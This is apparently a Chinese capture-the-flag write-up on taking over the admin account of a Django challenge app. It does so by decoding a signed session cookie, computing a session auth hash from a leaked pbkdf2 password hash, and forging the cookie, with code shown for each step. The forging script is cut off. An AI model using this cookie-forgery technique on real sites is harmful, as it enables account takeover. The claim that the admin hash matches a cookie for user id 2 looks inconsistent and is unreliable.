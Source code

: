 ```python
def profile(request):
    if request.user.username == "admin":
        user_profile = "flag redacted. login as admin on server to get flag."
    else:
        user_profile = "仅 admin 用户可阅览 flag。"
    return render(request, 'app/profile.html', {
        "name": name,
        "username": request.user,
        "profile": user_profile
    })


def log_out(request):
    logout(request)
    return redirect(reverse("index"))


from django.contrib.auth import models


def update_last_login(sender, user, **kwargs):
    pass


models.update_last_login = update_last_login
```
关键在于`if request.user.username == "admin":`判断，要让当前用户的用户名为`admin`，推测是Cookie欺骗
对Cookie进行解密（完整代码见后文）得到
```js
{'_auth_user_id': '2', '_auth_user_backend': 'django.contrib.auth.backends.ModelBackend', '_auth_user_hash': '0a884f8b987fca1a92c6f93d9042d83eea72d98d'}
```
查看Django源码得知，`_auth_user_backend`默认只有这一种，所以肯定是对`_auth_user_id`和`_auth_user_hash`进行替换
直接把`_auth_user_id`改为`1`，发现返回302跳转，所以应该还要得出admin的`_auth_user_hash`值

源码中有数据库文件`db.sqlite3`，查看发现其中有`pbkdf2_sha256`加密后的密码
`admin`: `pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE=`
`guest`: `pbkdf2_sha256$150000$8GFvEvr58uL6$YWM8Fqu8t/UYcW4iHqxXpkKPMEzlUvxbeHYJI45qBHM=`
找到生成`_auth_user_hash`的代码(`django.contrib.auth.bast_user.py`)
```python
    def get_session_auth_hash(self):
        """
        Return an HMAC of the password field.
        """
        key_salt = "django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash"
        return salted_hmac(key_salt, self.password).hexdigest()
```
copy出来，利用加密后的密码生成哈希值
```python
password = "pbkdf2_sha256$150000$KkiPe6beZ4MS$UWamIORhxnonmT4yAVnoUxScVzrqDTiE9YrrKFmX3hE="
hash1 = salted_hmac("django.contrib.auth.models.AbstractBaseUser.get_session_auth_hash", password).hexdigest()
print(hash1)
```
得到`0a884f8b987fca1a92c6f93d9042d83eea72d98d`，恰好是解密出的`_auth_user_hash`值，验证算法成功
然后修改`_auth_user_id`和`_auth_user_hash`，加密生成Cookie，requests.get即可
完整脚本（放置在`openlug/`下）：
```python
import sys,os,json,requests,re
os.environ.setdefault('DJANGO_SETTINGS_MODULE','settings')
from django.core import signing
from django.contrib.sessions.backends import signed_cookies
from django.utils.crypto import salted_hmac

# key=None : SECRET_KEY
```